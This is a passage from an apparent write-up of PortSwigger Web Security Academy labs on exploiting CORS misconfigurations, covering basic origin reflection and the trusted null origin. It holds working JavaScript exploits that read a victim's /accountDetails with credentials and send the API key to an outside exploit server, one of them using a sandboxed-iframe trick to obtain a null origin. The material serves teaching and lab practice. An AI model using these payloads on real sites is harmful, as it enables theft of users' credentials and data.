






# Cross-origin resource sharing (CORS) (2/4)

# Exploiting

### **CORS vulnerability with basic origin reflection**

On the application shown below, we see that after login, we end up hitting an endpoint called `/accountDetails`, which returns a JSON containing some sensitive information.



Looking up on Google, I discovered that this is a header that if set to true and the request is using user credentials, such as cookies or authorization headers, would make CORS possible.

This way, I was able to craft a JavaScript code and serve it on the exploit server provided by the lab, which follows:

```jsx
<script>
    fetch('https://0ada00f404263d8084631de900040016.web-security-academy.net/accountDetails', {
        method: 'GET',
        credentials: 'include'
        }
    )
    .then(response => response.json())
    .then(data => {
        fetch('https://exploit-0a57002f04333ded84331ce0013c00f7.exploit-server.net/exploit?pwned='+data.apikey);
    }).catch((err) =>
        console.log(err)
    );
</script>
```

The option `credentials: 'include'` entered on the first fetch request there says that the fetch request will include the credentials that belong to the user accessing the exploit. In this case, the credential is the session cookie.

We then make the user fetch our exploit server again, appending the value of the JSON property `apiKey` to a get parameter we’re calling “pwned”.

When checking our server’s access log, we can see in the bottom that we received a get request, as we have set, containing the API key of the user under the IP address 10.0.4.61.



P.S.: script defined in the lab’s solution:

```html
<script>
    var req = new XMLHttpRequest();
    req.onload = reqListener;
    req.open('get','YOUR-LAB-ID.web-security-academy.net/accountDetails',true);
    req.withCredentials = true;
    req.send();

    function reqListener() {
        location='/log?key='+this.responseText;
    };
</script>
```

The equivalent for `credentials: ‘include’` in XMLHttpRequest is `req.withCredentials = true;`

### **CORS vulnerability with trusted null origin**

On this example, we again notice that the application may accept CORS the same way as before, due to the response header `Access-Control-Allow-Credentials: true`.



However, the attack mentioned before doesn’t work. This leads to the necessity of figuring out which origins are whitelisted for CORS in the application. One thing that we can try is `Origin: null`.



We see that `null` is reflected in the `Access-Control-Allow-Origin` header. Now, in order to explore this, we need a way to trigger the victim’s browser to make a request containing `null` as the value of the `Origin` header. The easiest one is to place our script within an iframe in our exploit server’s page.

```html
<iframe sandbox="allow-scripts allow-top-navigation allow-forms" srcdoc="<script>
    fetch('https://0a52006904e0302d804fa881005b004c.web-security-academy.net/accountDetails', {
        method: 'GET',
        credentials: 'include'
        }
    )
    .then(response => response.json())
    .then(data => {
        fetch('https://exploit-0a7200f304f430628046a76c011c0071.exploit-server.net/exploit?pwned='+data.apikey);
    }).catch((err) =>
        console.log(err)
    );     
</script>"></iframe>
```

The `srcdoc` attribute is a way to enter HTML directly as the iframe’s source. The values for the sandbox attribute are explained below. 




